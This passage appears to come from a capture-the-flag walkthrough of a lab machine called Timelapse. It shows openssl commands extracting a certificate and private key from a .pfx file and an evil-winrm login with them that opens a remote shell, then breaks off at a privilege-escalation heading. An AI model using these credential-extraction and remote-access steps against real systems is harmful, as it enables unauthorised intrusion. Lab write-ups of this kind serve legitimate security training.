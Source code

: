 ```console
MbSnWEoruaTrC8FJHxB8dbapf341ssp6AK37+MBrq7ZX2W74rcwLY1pLM6giLkcs
yOeu6NGgLHe/plcvQo8IXMMwSosUkfECAwEAAaN4MHYwDgYDVR0PAQH/BAQDAgWg
MBMGA1UdJQQMMAoGCCsGAQUFBwMCMDAGA1UdEQQpMCegJQYKKwYBBAGCNxQCA6AX
DBVsZWdhY3l5QHRpbWVsYXBzZS5odGIwHQYDVR0OBBYEFMzZDuSvIJ6wdSv9gZYe
rC2xJVgZMA0GCSqGSIb3DQEBCwUAA4IBAQBfjvt2v94+/pb92nLIS4rna7CIKrqa
m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
-----END CERTIFICATE-----
```

```console
└─╼$ openssl pkcs12 -info -in legacyy_dev_auth.pfx -clcerts -nokeys -out dev.crt
Enter Import Password:
MAC: sha1, Iteration 2000
MAC length: 20, salt length: 20
PKCS7 Data
Shrouded Keybag: pbeWithSHA1And3-KeyTripleDES-CBC, Iteration 2000
PKCS7 Data
Certificate bag

└─╼$ openssl rsa -in legacyy_dev_auth.pfx -out dev.key
Enter pass phrase for PKCS12 import pass phrase:
writing RSA key
```

Use certificate & key to login using winrm:

```console
└─╼$ evil-winrm -i $IP -S -c dev.crt -k dev.key

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

## Privilege Escalation

### legacyy -> svc_deploy
